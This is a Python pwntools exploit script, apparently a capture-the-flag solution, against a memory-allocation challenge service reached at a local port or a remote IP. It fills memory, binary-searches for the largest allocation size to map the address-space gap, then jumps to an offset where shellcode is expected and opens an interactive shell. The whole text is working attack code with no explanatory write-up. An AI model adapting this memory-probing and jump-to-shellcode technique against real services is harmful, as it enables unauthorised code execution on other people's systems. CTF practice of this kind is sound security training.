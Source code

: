 from pwn import *

LOCAL = True

if LOCAL:
    io = remote('127.0.0.1', 9001, timeout = 20)
else:
    io = remote('54.202.7.144', 6969)

# fill lower memory between code and libraries
for i in range(1):
    print 'Allocation ' + str(i)
    print io.recvuntil('[a]lloc, [j]ump : ')
    io.send('a\n')
    print io.recvuntil('sz? ')
    io.send(str(2**45)+'\n')
    print io.recvuntil('free? ')
    io.send('n\n')

# Set lower and upper bound on size to search for
min1 = 2**42
max1 = 2**47
binDif = (max1-min1)/2 + min1

io.recvuntil('[a]lloc, [j]ump : ')
prev = 0

# Perform binary search until max allocation size is found
for i in range(10000):
    # Debug print
    if (i%3 == 0):
        print 'Bindif is: ' + hex(binDif)

    # Create allocation of size binDif
    io.send('a\n')
    io.recvuntil('sz? ')
    io.send(str(binDif)+'\n')
    str1 = io.recv(4)

    # The allocation is smaller than the largest free space in the program
    if (str1 == 'FAIL'):
        #print 'Too big!'
        io.recvuntil('[a]lloc, [j]ump : ')
        max1 = binDif
        binDif = (max1-min1)/2 + min1
    # The allocation is smaller than the largest free space in the program
    else:
        #print 'Too small!'
        io.recvuntil(' ')
        io.send('y\n')
        min1 = binDif
        binDif = (max1-min1)/2 + min1
        io.recvuntil('[a]lloc, [j]ump : ')
    # We're within one page (0x1000) of the max size allowed
    if (prev >> 12 == binDif >> 12):
        # Page align max allocation size
        binDif = (binDif >> 12) << 12
        print 'Found max size: ' + hex(binDif)
        break
    # Not found yet
    else:
        prev = binDif

# Based on testing shellcode is consistently 16 or 17 pages farther than the size found
binDif += 0x10000

# Jump to shellcode
print 'Jumping to: ' + hex(binDif)
io.send('j\n')
print io.recvuntil('sz? ')
io.send(str(binDif)+'\n')

# cat that flag!
io.interactive()
io.close()